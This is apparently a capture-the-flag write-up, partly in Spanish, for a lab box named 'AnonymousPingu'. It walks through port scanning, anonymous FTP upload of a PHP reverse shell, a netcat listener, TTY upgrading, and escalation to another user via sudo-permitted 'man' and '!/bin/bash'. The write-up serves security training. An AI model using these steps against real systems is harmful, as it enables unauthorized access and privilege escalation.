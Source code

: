 # AnonymousPingu

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![alt text](Imagenes/Anon_1.png)

Vemos que parece los ficheros de una pagina web , hay un directrio muy interesante que se llama 
"upload". Posiblemente tengamos que subir algun fichero para hacer una shell reversa.

## Examining the Web Page and Its Infrastructure
Si examinamos la pagina nos esntoramos lo siguiente:

![alt text](Imagenes/Anon_2.png)

Lo mas importante en la barra es el menu "Acceder al backend" si pinchamos nos dirige a la carpeta upload:

## Intrusion

Para hacer la intrusion he usado este script de github de "pentestmonkey"

https://github.com/pentestmonkey/php-reverse-shell

Por lo tanto he usado la herramienta ftp para subir el fichero reverse.php configurando nuestra IP y nuestro puerto
y usando la herrameinta netcat para hacer la conexion.

![alt text](Imagenes/Anon_3.png)

Si nos ponemos en escucha por el puerto 1234 con netcat:

```ruby
nc -lvnp 1234
```

y ejecutamos en el neavegador el archivo .php nos devuleve la shell
![alt text](Imagenes/Anon_4.png)

Por lo tanto estamos autenticados como el usuario "data"

# Tratamiento de la TTY

Para que nos sea más comodo vamos a hacer un tratamiento a la terminal para que no haya errores en algunos comados 
y funcionen.

Para ello lo primero ejecutamos la siguiente orden :

```ruby 
script /dev/null -c bash
```
Pulsamos ctlr + Z salimos de la terminal y hacemos el siguientes comandos:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

tendremos una terminal mas comoda.

## Escalation privilege

Para la escalada de privilegios vamos a utilizar el siguiente comando:
```ruby
sudo -l
``
Vemos los comandos que podemos ejecutar como root u otros usarios usando sudo:
```ruby
$ sudo -l
Matching Defaults entries for www-data on debddace088e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on debddace088e:
    (pingu) NOPASSWD: /usr/bin/man
```

Por lo tanto si ejecutamos la siguiente comando podemos hacerlo como el usuario pingu

```ruby
sudo -u pingu man man
```
Dentro del manual podemos ejecutar la siguiente 
```ruby
!/bin/bash
```
Vemos que nos mudamos de usuario y accedemos como pingu 

![alt text](image.png)






